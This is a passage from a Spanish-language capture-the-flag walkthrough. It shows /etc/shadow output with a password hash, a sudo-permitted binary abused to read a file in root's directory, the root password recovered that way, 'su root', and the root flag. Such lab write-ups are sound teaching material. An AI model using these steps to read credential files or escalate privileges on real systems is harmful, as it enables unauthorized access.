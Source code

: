 ```
list:*:20237:0:99999:7:::
irc:*:20237:0:99999:7:::
_apt:*:20237:0:99999:7:::
nobody:*:20237:0:99999:7:::
bambi:$y$j9T$r/nmv1Fl0wMa/zmw2HmP91$DEcAUEemN/paeO/sO0nMG05p6YvjKLcVpbTV3qvRC1D:20249:0:99999:7:::
```

Vemos que esta funcionando, pero antes hemos visto el archivo llamado `furbRead.txt` vamos a ver que contiene:

```
cat /var/backups/furbRead.txt
```

Info:

```
Interesante este nombre de archivo, donde mas puede encontrarse?
```

Vemos que nos esta dando una pista bastante interesante, puede ser que este mismo archivo este en la carpeta de `root`, vamos a probar lo siguiente:

```shell
sudo furb -r /root/furbRead.txt
```

Info:

```
StrongPasswordRootSuperSecret123
```

Vemos que ha funcionado por lo que vamos a probar la contraseña con el usuario `root` a ver si funciona.

```shell
su root
```

Metemos como contraseña `StrongPasswordRootSuperSecret123` y veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
cded3f7971d8b7ce0b7f57baeb7112fc
```
